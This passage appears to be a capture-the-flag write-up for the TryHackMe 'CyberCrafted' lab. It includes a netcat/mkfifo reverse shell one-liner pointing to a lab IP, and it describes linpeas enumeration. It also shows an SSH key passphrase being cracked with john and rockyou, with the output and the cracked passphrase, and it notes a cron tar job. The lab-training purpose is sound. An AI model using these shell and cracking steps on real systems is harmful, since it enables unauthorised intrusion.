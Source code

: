 What can we input?? Tried the list of reverse shell commands from *pentestmonkey*. This one finally worked:

> `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.1.137 4444 >/tmp/f'


---
## Linux Enumeration
Poke the penguin:

Basic enum got me nowhere; Fire up linpeas:

[Linpeas Results File](Results/09-linpeas.log)

### SSH Keys
Linpeas finds an SSH key for the *xXUltimateCreeperXx* user. Can we connect.  

Nope. Need to run the SSH key through **john** to find the passphrase:

```
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ /usr/share/john/ssh2john.py id_rsa > passphrase
                                                                                                                                         
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ ls                          
background-1.jpg  hash01  herobrine-3.jpeg  id_rsa  linpeas.sh  pack-2.png  passphrase
                                                                                                                                         
┌──(kali㉿kali)-[~/…/THM-GIT/Medium/004-CyberCrafted-01APR2022/Data]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt passphrase              
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
creepin2006      (id_rsa)     
1g 0:00:00:00 DONE (2022-04-02 09:26) 1.960g/s 3717Kp/s 3717Kc/s 3717KC/s creepygoblin..creep20
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

> SSH Passphrase: `creepin2006`

Can I login now:

> `Yes`


---
## MOAR ENUMS:
**Linpeas** showed a **cron** entry to take note of:

> `* *     1 * *   cybercrafted tar -zcf /opt/minecraft/WorldBackup/world.tgz /opt/minecraft/cybercrafted/world/*`
